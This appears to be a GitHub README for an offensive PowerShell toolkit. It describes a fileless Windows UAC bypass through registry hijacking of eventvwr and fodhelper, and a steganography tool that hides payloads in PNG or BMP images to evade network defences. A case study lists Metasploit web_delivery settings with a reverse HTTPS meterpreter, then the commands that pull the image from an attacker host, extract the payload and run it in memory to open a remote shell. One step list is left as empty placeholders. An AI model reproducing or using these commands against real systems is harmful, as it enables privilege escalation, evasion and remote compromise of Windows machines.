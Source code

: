 # Offensive-PowerShell
Collection of powershell scripts to be used during an offensive operation.   

## Set-FilelessBypassUac
Bypass the Windows User Account Control (UAC) with fileless methods.

Based on “Fileless” UAC Bypass Using eventvwr.exe and Registry Hijacking technique from Matt Nelson (@enigma0x3).
https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/

### METHODS:

* mscfile - Matt Nelson (@enigma0x3) method using CompMgmtLauncher.exe to replace eventvwr.exe.

    Working on:
    *  Microsoft Windows 7;
    *  Microsoft Windows 8;
    *  Microsoft Windows 8.1;
    *  Microsoft Windows 10 (UNTIL the build 15025.rs2)
    *  Microsoft Windows 2008;
    *  Microsoft Windows 2008 R2;
    *  Microsoft Windows 2016.

* ms-settings - NEW method using ms-settings registry key with DelegateExecute and fodhelper.exe.

    Working on:
    *  Microsoft Windows 10 (tested with successful until the build 15031.rs2)
    *  Microsoft Windows 2016.

## Set-PowerStego
Set-PowerStego allows text or binary files (including payloads developed in powershell and/or PE files) to be inserted into a selected image (BMP or PNG) using the Least Significant Bits (LSB) technique.
It will also be possible to recover the inserted file and in some cases execute it directly in the memory.(Does not touch the disk).

With Set-PowerStego you can bypass Layer 7 security solutions.

###Step-to-Step
  1 - .
  2 - .
  3 - .
    * .
    * .
    * .
  4 - .

###Step-to-Step
  1 - Hide a PAYLOAD inside of a image (with a good resolution).
  2 - Store the image on a Webserver that target have access.
  3 - Run the trigger (powershell command line) on the target.
    * The target will download the image to the memory.
    * The payload will be extract on the memory.
    * Powershell payloads will be executed on the memory and PE payloads will be copied to the disk and executed.
  4 - Receive your shell.

### CASE STUDY - Hiding a meterpreter payload inside of image.  
  1 - Open the msfconsole.
  msfconsole

  2 - Select and configure the web_delivery exploit.
  use exploit/multi/script/web_delivery  
  set windows/meterpreter/reverse_https
  set target 2
  set srvport 80
  set uripath /report
  set LHOST <IPADDRESS>
  set LPORT 443
  exploit

  3 - From your Windows machine download the powershell script from web_delivery.
  iwr http://IPFROMMETASPLOITHOST/report -OutFile report.txt

  4 - Open the powershell and import the Set-Powerstego.ps1.
  Import-Module Set-Powerstego.ps1

  5 - Select and analize the properties from a image (BMP or PNG) with a good resolution.
  Set-PowerStego -Method Analyze -ImageSource File -ImageSourcePath <image.png>

  6 - Hide de payload inside the image.
  Set-PowerStego -Method Hide -ImageSource File -ImageSourcePath myimage.png -ImageDestinationPath myimagewithpayload.png -PayloadSource Text -PayloadPath script.ps1

  7 - Copy the image to the METASPLOIT host and start a webserver to be possible access the image.
  cd imagefolder
  pythom -m SimpleHTTPServer 8080

  8 - From the Windows workstation extract the payload to the disk.
  Set-PowerStego -Method UnHide -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath report2

  Open the file report2 and compare with the file report.  

  9 - Generate a command line to execute the payload on the target.
  Set-PowerStego -Method GeneratePayload -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath myscript.txt

  Execute the content from the file myscript.txt on any Windows workstion with powershell and access to the metasploit host.
  After the execution, it will be download the image to the memory from the target, the payload extration and execution on the memory, and you will receive a meterpreter shell on the Metasploit host.
